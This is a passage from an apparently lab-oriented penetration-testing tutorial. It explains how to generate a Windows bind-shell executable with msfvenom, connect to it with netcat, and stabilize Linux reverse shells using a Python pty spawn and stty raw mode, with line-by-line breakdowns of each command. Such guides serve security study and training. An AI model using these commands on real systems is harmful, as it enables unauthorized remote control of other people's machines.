#### Bind Shell
- **Command**:
  ```bash
  msfvenom -p windows/shell_bind_tcp -f exe -o bind.exe LPORT=4444
  ```
  - **Line-by-Line**:
    - `msfvenom`: Invokes Msfvenom.
    - `-p windows/shell_bind_tcp`: Specifies a stageless bind TCP shell for 32-bit Windows.
    - `-f exe`: EXE format.
    - `-o bind.exe`: Output file.
    - `LPORT=4444`: Port for the target to listen on.
- **Target**: Run `bind.exe`.
- **Attacker**:
  ```bash
  nc 10.10.10.100 4444
  ```
  - **Line-by-Line**: See Netcat section.

---

## 5. Stabilizing Shells

Netcat and basic Socat shells are **non-interactive** and **unstable**, lacking features like tab completion and crashing on `Ctrl+C`. Here are three stabilization techniques for Linux (Windows stabilization is limited).

### 5.1 Python Technique (Linux Only)
- **Steps**:
  1. In the shell:
     ```bash
     python -c 'import pty;pty.spawn("/bin/bash")'
     ```
     - **Line-by-Line**:
       - `python`: Invokes Python (try `python2` or `python3` if needed).
       - `-c 'import pty;pty.spawn("/bin/bash")'`: Runs a Python command to import the `pty` module and spawn a Bash shell with a pseudoterminal.
  2. Set terminal type:
     ```bash
     export TERM=xterm
     ```
     - **Line-by-Line**:
       - `export`: Sets an environment variable.
       - `TERM=xterm`: Defines the terminal type as `xterm`, enabling commands like `clear`.
  3. Background the shell with `Ctrl+Z`.
  4. In your terminal:
     ```bash
     stty raw -echo; fg
     ```
     - **Line-by-Line**:
       - `stty raw`: Sets the terminal to raw mode, disabling local processing.
       - `-echo`: Disables local echo, enabling tab completion and arrow keys.
       - `;`: Separates commands.
       - `fg`: Foregrounds the backgrounded shell.
- **Fixing Terminal**:
  ```bash
  reset
  ```
  - **Line-by-Line**:
    - `reset`: Restores terminal settings if echo is broken after the shell dies.
- **Troubleshooting**:
  - If `python` fails, try `python2` or `python3`.
  - Ensure `/bin/bash` exists (fallback to `/bin/sh`).
